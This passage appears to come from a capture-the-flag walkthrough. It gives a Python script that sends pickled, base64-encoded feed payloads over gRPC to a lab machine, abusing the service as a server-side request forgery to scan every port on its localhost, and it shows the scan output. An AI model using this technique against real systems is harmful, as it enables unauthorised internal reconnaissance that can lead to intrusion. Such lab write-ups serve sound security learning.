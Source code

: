 
    payload = """{{
        "version": "v1.0",
        "title": "Printer Feed",
        "home_page_url": "",
        "feed_url": "http://localhost:{}",
        "items": [
            {{
                "id": "2",
                "content_text": "Queue jobs"
            }},
            {{
                "id": "1",
                "content_text": "Failed items"
            }}
        ]
    }}"""

    channel = grpc.insecure_channel('10.10.10.201:9000')
    stub = feedengine_pb2_grpc.PrintStub(channel)

    for port in range(1, 65536):
        print(f'\r{port}', end='', flush=True)
        payload_ser = base64.b64encode(pickle.dumps(payload.format(port)))
        content = feedengine_pb2.Content(data=payload_ser)
        try:
            response = stub.Feed(content)
            print(f'\r[{port:05d}] Open - Resp: {response.feed.strip()}')
        except grpc._channel._InactiveRpcError as ex:
            if not 'Failed to connect to localhost port' in ex.details():
                print(f'\r[{port:05d}] Open - No resp')

    print('\rScan Complete')



In the `payload` string, I use double `{{}}` for actual brackets and
single `{}` so that later when I call `.format` the singles will be
replaced with the port and the doubles will become singles.

Then I just loop over all the ports, sending the request, and checking
the response. If a feed comes back, I print that with the message. If
there's an error, I check if it's an error about failing to connect. If
it's anything else, I print that the port is open, but not responding to
this request.



    root@kali# time python3 feedengine_portscan.py
    [00022] Open - No resp                                                              
    [07983] Open - No resp           
    [08983] Open - Resp: Pushing feeds
    [09000] Open - No resp                                                              
    [09100] Open - No resp
    [41671] Open - Resp: Pushing feeds
